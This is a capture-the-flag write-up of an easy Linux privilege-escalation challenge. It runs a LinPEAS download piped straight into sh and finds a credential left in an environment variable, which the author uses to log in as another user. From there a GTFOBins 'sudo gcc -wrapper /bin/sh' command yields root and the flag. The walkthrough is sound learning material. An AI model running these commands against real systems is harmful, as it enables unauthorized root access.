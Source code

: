 # CTF Writeup:  Town Pulse

## Challenge Overview
* **Category:** OS Exploitation
* **Difficulty:** ["Easy"]
* **Description:** We have access to a linux box, need to find vulnerable configuration to escalate privileges and find flag. 


## Tools Used

- [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
- [GTFOBins](https://gtfobins.github.io/)
- bash

---

## Solution

Usual disclaimer here: the following solution was the one that worked and there was some trial and error to find it. Omitting those dead-ends for brevity.  

### Step 1: Initial Access

```bash
ssh Pentester@<ip>
ssh: connect to host <ip> port 22: Connection refused
```

Ah, ok, why tho? Let's check what ports are open and services running:

```bash
nmap -sV <ip>
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-29 15:19 AEDT
Nmap scan report for <ip>
Host is up (0.11s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
2222/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.95 seconds
 
```

Switching ports.

```bash
ssh -p 2222 Pentester@<ip>
```


Challenge requires privilege escalation so let's go script kiddie and fetch a tool to search for that "privesc" as it's call in "the biz".

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
 % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  0  805k    0     0    0     0      0      0 --:--:--  0:00:01 --:--:--     0


                            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
                    ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄
         ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄
         ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
         ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
         ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
         ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
         ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
         ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
         ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
         ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
         ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
         ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄ 
          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
         ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
          ▀▀▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄▀▀▀▀▀▀
               ▀▀▀▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▀▀
                     ▀▀▀▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▀▀▀

    /---------------------------------------------------------------------------------\
    |                             Do you like PEASS?                                  |
    |---------------------------------------------------------------------------------|
    |         Learn Cloud Hacking       :     https://training.hacktricks.xyz         |
    |         Follow on Twitter         :     @hacktricks_live                        |
    |         Respect on HTB            :     SirBroccoli                             |
    |---------------------------------------------------------------------------------|
    |                                 Thank you!                                      |
    \---------------------------------------------------------------------------------/
          LinPEAS-ng by carlospolop

ADVISORY: This script should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own computers and/or with the computer owner's permission.

```

... etc etc ... 

```bash
╔══════════╣ Environment
╚ Any private information inside environment variables?  
HOME=/home/Pentester 
LOGNAME=Pentester
JOAN_TEMPORARY_CREDS=jojocreds1
```
 
Well well well. For reasons mysterious there are temp creds for another user in the environment variables of our account. 

Let's try SSHing into their account and see what permissions they have. Fingers crossed they're in `sudo` group and we can use their privilege to escalate ours **sinister laugh**. 

What's our target account though? 

```bash
ls /home
Joan  Pelski  Pentester  Shedra  user
```

Spoiler alert: it's the Joan account. Let's try to ssh into their account with the creds. 

```bash

ssh Joan@localhost 
Joan@localhost's password: <enter creds>
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Thu Nov 28 22:51:34 2024 from 127.0.0.1

```

**lowers sunglasses** We're in!

---

### Step 2: Priv Esc

See what groups Joan's in.

```bash
groups
Joan sudo
```

Good, good, now let's add our pentester account to sudoers.

```bash
sudo usermod -aG sudo Pentester
Sorry, user Joan is not allowed to execute '/usr/sbin/usermod -aG sudo Pentester' as root on dad5f987a15f."
```

Blerg! Rubbing the brow here as I was heading for a PB for unfinished challenges in this event. Thankfully team-work makes the dream work and I looked to the east for a teammate wizard saviour.

![image](./gandalf-white.gif)

Thanks wizard teammate 🧙 10 seconds, one command, and a URL later. 

The command which shows the commands they can run as sudo.

```bash
sudo -l
(ALL) NOPASSWD: /usr/bin/gcc
```

The URL with ways to exploit that: https://gtfobins.github.io/gtfobins/gcc#sudo

Doopdeedoop, let's try that GTFObin command now.

```bash
sudo gcc -wrapper /bin/sh,-s .
# whoami
root
# 
```

😍 

Now we can give our Pentester account sudo powers.

```bash
sudo usermod -aG sudo Pentester
exit
exit
exit
```

There we logged out of root, Joan, and Pentester, then sshed back in to the latter and to apply the new group memberships. Check those.

```bash
ssh -p 2222 Pentester@<ip>
groups
Pentester sudo
```

Huzzah! Now what commands can we run as sudo?

```bash
sudo -l
(ALL) NOPASSWD: /usr/bin/gcc
```

Interesting this one, as the commands are limited to those Joan had. Wasn't expecting that. 

Run that GTFOBin again with our account

```bash
Pentester@host:~$ sudo gcc -wrapper /bin/sh,-s .
# whoami
root
# 
```

Privilege escalated.

---

### Step 3: Flag Retrieval

Now the flag's gotta be here somewhere, normally I use `find` (looking for flag.txt) or `grep` (looking for string FLAG within a file) on the entire file system. Trying find first 

```bash
# find / -name flag.txt -type f
/root/flag.txt
```

Then

```bash
# cat /root/flag.txt
FLAG{7H15_SUDO_C00K3D_R007}
```

![image](./victory.gif)


---

## Reflections

- Ask teammates for help when you get blocked. Difficult for you can be easy for them and vice versa. 
- As a team, set up some tools in comms (like a thread for each challenge) to share progress and artefacts for challenges so someone can pick up from where someone else is stuck.
- Linpeas and gtfobins are l337h4x0r was to privesc on linux. 🫶

---


